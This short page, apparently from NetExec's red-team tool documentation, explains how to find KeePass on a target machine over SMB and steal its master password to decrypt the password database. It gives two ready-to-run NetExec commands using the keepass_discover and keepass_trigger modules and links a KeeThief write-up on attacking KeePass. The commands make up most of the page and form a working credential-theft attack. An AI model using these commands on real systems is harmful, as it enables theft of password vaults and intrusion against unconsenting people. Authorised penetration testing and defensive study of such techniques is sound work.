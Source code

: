 # Dump KeePass

You can check if keepass is installed on the target computer and then steal the master password and decrypt the database !

```
$ NetExec smb <ip> -u user -p pass -M keepass_discover
$ NetExec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
```

{% embed url="https://web.archive.org/web/20211017083926/http://www.harmj0y.net:80/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2" %}
